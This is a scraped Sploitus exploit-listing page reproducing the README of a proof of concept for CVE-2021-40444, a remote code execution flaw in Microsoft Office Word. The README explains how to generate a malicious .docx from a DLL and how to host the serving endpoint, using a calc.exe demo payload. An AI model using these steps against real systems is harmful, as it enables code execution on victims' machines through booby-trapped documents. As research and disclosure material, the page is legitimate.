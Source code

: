 ```yaml
---
title: Exploit for Path Traversal in Microsoft exploit
url: https://sploitus.com/exploit?id=1934A15D-9857-5560-B6CA-EA6A2A8A91F8&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-06
fetch_date: 2025-10-04T11:44:31.277582
---
```


# Exploit for Path Traversal in Microsoft exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Path Traversal in Microsoft CVE-2021-40444

2023-06-05 | CVSS 8.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1934A15D-9857-5560-B6CA-EA6A2A8A91F8
# CVE-2021-40444 PoC

Malicious docx generator to exploit CVE-2021-40444 (Microsoft Office Word Remote Code Execution)

Creation of this Script is based on some reverse engineering over the sample used in-the-wild: 938545f7bbe40738908a95da8cdeabb2a11ce2ca36b0f6a74deda9378d380a52 (docx file)

You need to install lcab first (`sudo apt-get install lcab`)

Check `REPRODUCE.md` for manual reproduce steps

If your generated cab is not working, try pointing out exploit.html URL to calc.cab

# Using

First generate a malicious docx document given a DLL, you can use the one at `test/calc.dll` which just pops a `calc.exe` from a call to `system()`

`python3 exploit.py generate test/calc.dll http://`

![Document generation](./img/gen.png)

Once you generate the malicious docx (will be at `out/`) you can setup the server:

`sudo python3 exploit.py host 80`

![Server](./img/srv.png)

Finally try the docx in a Windows Virtual Machine:

![Pop Calc](./img/calc.png)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)